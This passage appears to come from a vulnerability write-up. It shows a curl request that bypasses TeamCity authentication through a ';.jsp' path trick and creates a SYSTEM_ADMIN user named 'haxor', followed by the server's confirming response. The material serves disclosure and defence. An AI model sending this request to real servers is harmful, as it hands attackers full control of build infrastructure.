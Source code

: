 ```xml
C:\Users\sfewer>curl -ik http://172.29.228.65:8111/hax?jsp=/app/rest/users;.jsp -X POST -H "Content-Type: application/json" --data "{\"username\": \"haxor\", \"password\": \"haxor\", \"email\": \"haxor\", \"roles\": {\"role\": [{\"roleId\": \"SYSTEM_ADMIN\", \"scope\": \"g\"}]}}"
HTTP/1.1 200
TeamCity-Node-Id: MAIN_SERVER
Cache-Control: no-store
Content-Type: application/xml;charset=ISO-8859-1
Content-Language: en-IE
Content-Length: 661
Date: Wed, 14 Feb 2024 17:33:32 GMT

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><user username="haxor" id="18" email="haxor" href="/app/rest/users/id:18"><properties count="3" href="/app/rest/users/id:18/properties"><property name="addTriggeredBuildToFavorites" value="true"/><property name="plugin:vcs:anyVcs:anyVcsRoot" value="haxor"/><property name="teamcity.server.buildNumber" value="147512"/></properties><roles><role roleId="SYSTEM_ADMIN" scope="g" href="/app/rest/users/id:18/roles/SYSTEM_ADMIN/g"/></roles><groups count="1"><group key="ALL_USERS_GROUP" name="All Users" href="/app/rest/userGroups/key:ALL_USERS_GROUP" description="Contains all TeamCity users"/></groups></user>
```

We can verify the malicious administrator user has been created by viewing the TeamCity users in the web interface:  
我们可以通过查看 Web 界面中的 TeamCity 用户来验证是否已创建恶意管理员用户：
